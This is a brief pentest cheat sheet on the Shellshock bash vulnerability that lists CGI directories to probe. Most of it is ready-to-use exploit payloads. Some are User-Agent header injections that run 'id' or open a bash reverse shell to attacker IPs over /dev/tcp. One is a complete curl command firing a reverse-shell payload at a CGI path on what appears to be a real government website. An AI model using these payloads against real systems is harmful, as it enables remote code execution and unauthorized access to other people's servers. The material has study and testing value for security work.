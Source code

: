 # Shellshock

## Common directories

```bash
/cgi-bin/
/cgi-sys/
/cgi-mod/
```

Search for files with extension: `.cgi`, `.sh`

## RCE

Send this on the User-Agent header:

```bash
# Get user ID
User-Agent: () { :;}; echo; /usr/bin/id

# Reverse Shell
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

Using Curl:

```
curl -i -s -k  -X $'GET' -H $'Host: esb.sa.gov.au' -H $'User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' $'https://www.esb.sa.gov.au/cgi-sys/defaultwebpage.cgi'
```

Using Burp:

![](Shellshock/Untitled.png)